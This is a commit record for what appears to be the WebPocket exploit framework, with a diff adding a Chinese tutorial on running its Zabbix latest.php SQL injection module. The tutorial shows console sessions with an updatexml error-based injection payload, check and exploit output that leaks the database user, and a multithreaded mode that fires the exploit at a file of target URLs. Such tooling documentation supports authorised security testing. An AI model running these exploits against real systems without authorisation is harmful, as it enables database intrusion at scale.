

Before and after one commit to TuuuNya/WebPocket, a Sphinx documentation site: the page built from docs/framework/tutorial.rst, in a window 1280 px wide and 1400 px high, scrolled down 624 px. Shown: the whole window, without its empty margins (388-1111 px from the left). Built offline with Sphinx 7.4.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
docs: add docs for demo and threads

```diff
--- a/docs/framework/tutorial.rst
+++ b/docs/framework/tutorial.rst
@@ -38,7 +38,73 @@
 常用命令
 ==================
 
+对单目标执行POC/EXP
+-------------------
+
+此处以 ``exploits/http/zabbix/zabbix_latest_php_sqli`` 模块为例，对目标 ``http://127.0.0.1:8080`` 执行。 ::
+
+    WebPocket > use exploits/http/zabbix/zabbix_latest_php_sqli
+    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > show options
+    Module options:
+
+    name     required    description                            value
+    -------  ----------  -------------------------------------  ---------------------------------
+    URL      True        The url to be tested
+    TIMEOUT  True        Connection timeout                     5
+    THREADS  True        The number of threads                  1
+    SQL      True        The SQL statement you want to execute  updatexml(0,concat(0xa,user()),0)
+
+    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > set URL http://127.0.0.1:8080
+    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > check
+    [+] Check success!
+    [+] URL:http://127.0.0.1:8080 has the vulnerability
+    [*] module execution completed
+    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > exploit
+    [+] Exploit success!
+    [+] Exploit result: root@172.18.0.4
+    [*] module execution completed
+    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) >
+
+首先 ``use`` 模块，然后使用 ``show options`` 查看需要设置的参数。
+
+最后使用 ``check`` 或者 ``exploit`` 执行检查/测试。
+
+对多个目标执行POC/EXP
+-----------------------
+
 首先执行 ``python WebPocket.py`` 进入交互式命令行。
+
+当要对多个目标执行POC的时候，可以把目标写入到txt文件，然后使用 ``set URL -f target.txt`` 传入。例如： ::
+
+    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > use exploits/http/zabbix/zabbix_latest_php_sqli
+    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > show options
+    Module options:
+
+    name     required    description                            value
+    -------  ----------  -------------------------------------  ---------------------------------
+    URL      True        The url to be tested
+    TIMEOUT  True        Connection timeout                     5
+    THREADS  True        The number of threads                  1
+    SQL      True        The SQL statement you want to execute  updatexml(0,concat(0xa,user()),0)
+
+    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > set URL -f url.txt
+    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > set THREADS 20
+    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) > exploit
+    [+] Exploit result: root@172.18.0.4
+    [+] Exploit result: root@172.18.0.4
+    [+] URL:http://www.hackersb.cn Maybe not zabbix? not found zbx_sessionid
+    [+] URL:http://www.hackersb.cn Maybe not zabbix? not found zbx_sessionid
+    [+] Exploit result: root@172.18.0.4
+    [+] Exploit result: root@172.18.0.4
+    [+] URL:http://www.hackersb.cn Maybe not zabbix? not found zbx_sessionid
+    [+] URL:http://www.hackersb.cn Maybe not zabbix? not found zbx_sessionid
+    [+] URL:http://www.hackersb.cn Maybe not zabbix? not found zbx_sessionid
+    WebPocket exploits(http/zabbix/zabbix_latest_php_sqli) >
+
+相信你也看到了，可以设置 ``THREADS`` 来设置线程数，支持多线程执行 :)
+
+所有命令
+==================
 
 help
 -----------
```
